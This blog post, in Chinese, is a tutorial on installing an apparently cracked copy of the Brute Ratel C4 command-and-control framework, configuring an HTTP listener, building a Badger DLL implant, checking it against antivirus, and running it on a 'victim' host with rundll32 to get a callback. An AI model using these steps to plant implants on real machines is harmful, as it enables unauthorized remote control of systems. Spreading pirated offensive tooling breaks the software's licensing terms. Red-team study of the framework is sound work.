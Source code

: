 ```yaml
---
date: 2024-08-17 12:00:00
---
```


# 「远控」BRC4安装与简单上线


Brute Ratel C4是一款类似于Cobalt Strike的商业红队武器框架，每年License收费为3000美元，客户需要提供企业电子邮件地址并在颁发许可证之前进行验证，首个版本Brute Ratel C4 v0.2于2021年2月9日发布，它是由Mandiant和CrowdStrike的前红队队员Chetan Nayak创建的，该工具独特之处在于它专门设计防止端点检测和响应(EDR)和防病毒(AV)软件的检测，是一款新型的红队商业对抗性攻击模拟武器。

与Cobalt Strike的Beacon后门类似，Brute Ratel C4允许红队在远程终端主机上部署Badger后门程序，Badger连接回攻击者的命令和控制服务器，接收服务器端的命令执行相关的恶意行为。

[BRC4官网](https://bruteratel.com/)

![CleanShot 2024-08-17 at 00.22.18@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.22.18@2x.png)


在kali中进行安装。首先对压缩包进行解压。

::: code-group
```bash [bash]
kali :: ~/Desktop/BRC4 » unzip BRC4.zip
```
:::

得到如下文件：

![CleanShot 2024-08-17 at 00.29.54@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.29.54@2x.png)

给予`brute-ratel-linx64_crack` 和 `lib64/commander` 执行权限


::: code-group
```bash [bash]
kali :: ~/Desktop/BRC4 » chmod +x x brute-ratel-linx64_crack                                   1 ↵
kali :: ~/Desktop/BRC4 » chmod +x lib64/commander                                            130 ↵
```
:::

启动服务端，其中用户名为`hack`，密码为`p@ssw0d`，端口为`7788`，可以自行调整。
:::code-group
```bash [bash]
kali :: ~/Desktop/BRC4 » ../brute-ratel-linx64_crack -ratel -a hack -p p@ssw0d -h 127.0.0.1:7788 -sc
 cert.pem -sk key.pem
```
:::

![CleanShot 2024-08-17 at 00.32.05@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.32.05@2x.png)

接下来打开图形界面，首先赋予执行权限
:::code-group
```bash [bash]
kali :: ~/Desktop/BRC4 » chmod +x Rungui.sh
```
:::

启动图形界面
:::code-group
```bash [bash]
kali :: ~/Desktop/BRC4 » ./Rungui.sh                                                    130 ↵
```
:::

启动了图形界面后，接下来输入前面设定好的用户名和密码，点击猴子就可以成功登录。

![image-20240817003911885](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817003911885.png)

![image-20240817004013352](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004013352.png)

进入客户端之后，点击`C4 Profiler`，然后点击`Add Http Listener`，这里和CS的步骤一样，需要先创建并配置一个监听器。

![image-20240817004225691](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004225691.png)

接下来配置监听器，配置的内容为：
1. `Listener name`：监听器的名称，自定义。
2. `Listener bind host`：设置监听地址，当前选择主机的 IP即可。
3. `Rotational hosts`：重定向地址，当前点击右侧same按钮选择和监听器一样的地址。
4. `Port`：端口自定义
5. `Useragent`：默认即可。UA头
6. `URI(S)`：瞎写就可以，随便。
7. `OS`：默认
8. `SSL`：选择`No`，如果选择`Yes`，可能会导致无法上线。
9. `Sleep mask`：默认
10. `Sleep`,`Jitter`：类似CS的延时时间，建议调低。
11. `Create random set of authentication keys`,`Die if C2 is inaccessible?(Initialization only)`：勾选，马子如果不上线，不会一直请求。

![image-20240817004958076](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004958076.png)

![image-20240817005241617](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005241617.png)

配置完成后，点击`Save`保存，即可创建一个监听器。

右键点击该监听器，选择`Stageless`，选择`x64 Arch (Default)`，选择`dll`，这里是根据前面创建监听器时设置的架构来选择的。即可生成对应架构的马。

![image-20240817005459015](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005459015.png)

![image-20240817005623775](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005623775.png)

对生成的DLL随手查杀一下

![image.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/20240817010536.png)

将这个DLL放到受害者的主机上，为了方便测试，直接在cmd终端执行命令：
:::code-group
```powershell [powershell]
rundll32 badger_x64.dll,main
```
:::

可以看到，成功上线了。

![image.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/20240817011006.png)

更多后续使用方法再玩玩后分享。

